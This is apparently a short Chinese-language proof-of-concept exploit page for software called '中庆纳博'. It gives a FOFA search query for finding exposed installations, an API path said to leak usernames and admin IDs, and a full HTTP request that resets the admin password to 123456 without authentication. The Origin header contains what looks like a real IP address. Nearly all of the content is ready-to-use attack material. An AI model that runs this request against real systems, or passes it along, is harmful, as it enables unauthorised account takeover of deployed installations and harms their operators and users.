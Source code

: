 <languages />

FOFA
----

    "中庆纳博"

POC
---

訪問此鏈接，可以看見洩露用戶名，以及管理id。然後可以通過 用戶名重置密碼為默認密碼123456

    http://xxxxxx/api/TeacherQuery/SearchTeacherInSiteWithPagerRecords

    POST /api/User/ResetPassword HTTP/1.1
    Host: xxxxxxxxxx
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
    Accept: application/json, text/plain, /
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json;charset=utf-8
    Content-Length: 23
    Origin: http://117.36.154.34:8010
    DNT: 1
    Connection: close
    Referer: http://xxxxxxxx/default/admin/user/index{"loginName":"admin"}
